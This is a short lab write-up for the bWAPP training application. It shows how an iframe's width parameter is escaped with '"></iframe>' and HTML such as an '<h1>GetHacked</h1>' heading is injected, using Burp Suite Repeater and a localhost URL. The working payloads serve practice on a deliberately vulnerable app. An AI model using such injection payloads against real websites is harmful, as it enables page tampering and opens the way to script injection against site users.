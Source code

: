 ![[1 57.png]]
- Let's intercept the request in Burpsuite.
![[2 54.png]]
- We can now forward this request to the `Repeater` in order to make modifications to it.
![[3 44.png]]
- As we can see the URL is being used to complete the `<iframe>` tag.
- Let's try to escape the tag by using the following request URL:
```
GET /bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe> HTTP/1.1
```
![[4 29.png]]
- We can see that the `</iframe>` tag set by the application now is a lone closing tag. This proves that we have successfully escaped the tag.
- We can now perform a regular HTML URL injection.
```
GET /bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe><h1>GetHacked</h1> HTTP/1.1
```
![[4 30.png]]
- We can even do the same exploit directly in the browser using the following URL:
```
http://localhost/bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe><h1>GetHacked</h1>
```
![[6 10.png]]
- We can see our message `<h1>` tags.
